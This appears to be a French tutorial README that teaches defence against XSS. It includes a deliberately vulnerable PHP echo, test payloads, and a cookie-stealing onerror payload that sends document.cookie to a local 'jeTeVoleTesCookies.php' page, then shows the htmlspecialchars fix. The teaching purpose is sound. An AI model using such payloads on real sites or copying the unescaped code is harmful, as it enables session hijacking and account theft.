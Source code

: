 # Se protéger contre les Failles Web

## 1. Failles XXS (Cross-site scripting)

- `XSS (Cross-site scripting)`  est une faille permettant l'injection de code HTML ou JavaScript dans des variables mal protégées. Il existe en fait deux types de XSS :
Le XSS réfléchi (non permanent) : on dit qu’elle est non permanente car elle n’est pas enregistrée dans un fichier ou une base de données.

- `Le XSS stocké (permanent)` : c’est une faille plus sérieuse car le script est sauvegardé dans un fichier ou une base de données. Il sera donc affiché à chaque ouverture du site. 

### Le XSS réfléchi

L’exemple le plus courant est celui du formulaire. Voici un formulaire basic sans mot de passe : Créez un dossier nommé faille par exemple dans lequel vous allez créer un fichier index.html et un fichier connexion.php

Imaginez que nous ayons un simple fichier index.html avec un formulaire : 

```html

    <form method="post" action="connexion.php">
        <input type="texte" name="pseudo" />
        <input type="submit" value="Se connecter" />
    </form>

```

Et un fichier connexion.php qui récupère la valeur de l'input

```php
echo "Bonjour " . $_POST['pseudo'] . "!"
```

- testez ce code et voyez ce qu'il se passe : `<strong>Coucou</strong>`
- Et avec celui-ci ? : `<script>alert('Il y a une faille XSS')</script>`

Vous pouvez egalement tester cela sur ce site : https://www.google.com/about/appsecurity/learning/xss/ 

### Le XSS stocké (permanant)

C'est une faille plus sérieuse car le script est sauvegardé dans un fichier ou une base de données.

Beaucoup de sites stockent les pseudo/ password de leurs utilisateurs dans des cookies. 
Utilisée correctement, cette faille peut par exemple permettre au pirate de récupérer les valeurs de ces fameux cookies. 
Voilà comment il va procéder. Il va tout d'abord insérer un code frauduleux sur une page de votre site où il peut écrire (livre d'or par exemple) ! Il va ensuite vous envoyer un message et vous inviter à aller voir cette fameuse page. Vous, sans vous méfier, cliquez et là … hop vous êtes redirigé et le pirate a récupéré votre cookie, et donc vos identifiants d'administrateur du site.

On peut distinguer plusieurs possibilités non exhaustives d’exploitation de cette faille :

- Une redirection de la page afin de nuire aux utilisateurs ou pour tenter une attaque de phishing.
- Voler des sessions ou des cookies. (Donc se faire passer pour un autre utilisateur pour exécuter des actions)
- Rendre le site inaccessible en utilisant des alertes en boucle ou tout autre moyen nuisible.

### Exemple de ce que le méchant Hacker pourrait faire 

- testez sur le site : `<img src="petitChat.jpg" onerror="alert(document.cookie);">`

- Vous pouvez egalement le tester en localhost. Vous trouverez dans ce repository un dossier `failleHacker` qui contient un fichier `jeTeVoleTesCookies.php` . 
- Ajouter ce code dans index.html : `<img src="petitChat.jpg" onerror="window.location='../failleHacker/jeTeVoleTesCookies.php?cookie='+document.cookie;" hidden>` (Normalement le hacker mettrai cela dans l'input. Mais chrome se protège un minimum et bloque cette fonctionnalité. Raison pour laquelle nous allons mettre le code dans l'html )
- Décommentez les lignes suivantes pour voir ce que cela donne...

Voici juste un petit aperçu si je décommente `phpinfo();`

Voici va se passer. Ce script redirige l’utilisateur si il y a une erreur. Or l’image petitChat.jpg n’existe pas. Le pirate a bien calculé son coup, il voulait qu’il y ai une erreur.
Ainsi, onerror (en cas d’erreur) vous êtes alors redirigé vers la page jeTeVoleTesCookies.php et tout ça en communiquant le contenu de votre cookie dans l’URL. Sur la page jeTeVoleTesCookies.php, le pirate n'aura qu'à récupérer la variable cookie grâce à un GET et la stocker dans un fichier. À partir de ce moment-là il détient vos informations personnelles. Cela peut s'avérer très embêtant, surtout si vous êtes l'administrateur du site web.

## Comment s'en protéger ?

Il faut absolument utiliser les fonctions php `htmlspecialchars()` qui filtre les ‘<‘ et ‘>’ ou `htmlentities()` qui filtre toutes les entités html.

htmlspacialchars() . Cette fonction permet de filtrer les symboles du type  <, & ou encore ", en les remplaçant par leur équivalent en HTML. Par exemple :

- Le symbole & devient &amp;
- Le symbole " devient &quot;
- Le symbole ' devient &#39;

Modifions notre fichier connexion.php avec la protection

```php

  $pseudo = htmlspecialchars($_POST['pseudo'], ENT_QUOTES);
  echo "Bonjour ".$pseudo." !"

  ```

  `ENT_QUOTES` : converti les simples et doubles guillemets. `"MonNom"` deviendra `&quot;MonNom&quot;`



